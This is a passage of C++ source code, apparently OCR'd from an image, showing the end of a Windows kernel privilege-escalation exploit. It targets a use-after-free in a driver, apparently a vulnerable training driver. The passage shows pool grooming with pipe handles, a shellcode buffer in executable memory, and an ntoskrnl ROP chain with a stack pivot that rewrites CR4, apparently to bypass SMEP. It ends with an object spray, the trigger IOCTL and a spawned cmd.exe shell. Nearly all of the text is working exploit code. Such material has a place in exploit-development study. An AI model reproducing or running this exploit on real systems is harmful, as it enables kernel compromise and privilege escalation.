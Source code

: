 ```cpp
        if (i % 2 == 0) {
            PipeHandles handles = seqPipeHandles[i];
            CloseHandle(handles.read);
            CloseHandle(handles.write);
        }
    }

    printf("[>] Allocating UAF Object\n");
    if (!DeviceIoControl(hDriver, ALLOCATE_UAF_IOCTL, NULL, NULL, NULL, 0, &bytesWritten, NULL)) {
        //Error("Allocate UAF Object");
    }

    printf("[>] Freeing UAF Object\n");
    if (!DeviceIoControl(hDriver, FREE_UAF_IOCTL, NULL, NULL, NULL, 0, &bytesWritten, NULL)) {
        Error("Free UAF Object");
    }

    printf("[>] Filling holes with custom objects..\n");    
    LPVOID shellcode = VirtualAlloc(NULL, 256, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    RtlCopyMemory(shellcode, sc, 256);

    QWORD ntBase = getBaseAddr(L"ntoskrnl.exe");
    QWORD STACK_PIVOT_ADDR = 0x48000000;
    QWORD STACK_PIVOT_GADGET = ntBase + 0x317f70; // mov esp, 0x48000000; add esp, 0x28; ret; 
    QWORD POP_RCX = ntBase + 0x20a386;
    QWORD MOV_CR4_RCX = ntBase + 0x3acd47;
    int index = 0;

    QWORD stackAddr = STACK_PIVOT_ADDR - 0x1000;
    LPVOID kernelStack = VirtualAlloc((LPVOID)stackAddr, 0x14000, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (!VirtualLock(kernelStack, 0x14000)) {
        Error("VirtualLock");
    }

    RtlFillMemory((LPVOID)STACK_PIVOT_ADDR, 0x28, '\x41');
    QWORD* rop = (QWORD*)((QWORD)STACK_PIVOT_ADDR + 0x28);

    *(rop + index++) = POP_RCX;
    *(rop + index++) = 0x350ef8 ^ 1UL << 20;
    *(rop + index++) = MOV_CR4_RCX;
    *(rop + index++) = (QWORD)shellcode;    
    
    BYTE uBuffer[0x60] = { 0 };
    *(QWORD*)(uBuffer) = (QWORD)(STACK_PIVOT_GADGET);

    for (int i = 0; i < 30000; i++) {
        if (!DeviceIoControl(hDriver, FAKE_OBJECT_IOCTL, uBuffer, sizeof(uBuffer), NULL, 0, &bytesWritten, NULL)) {
            Error("Allocate Custom Object");
        }
    }

    printf("[>] Triggering callback on UAF object..\n");
    if (!DeviceIoControl(hDriver, USE_UAF_IOCTL, NULL, NULL, NULL, 0, &bytesWritten, NULL)) {
        Error("Use UAF Object");
    }
    system("cmd.exe");
    return 0;
}
```
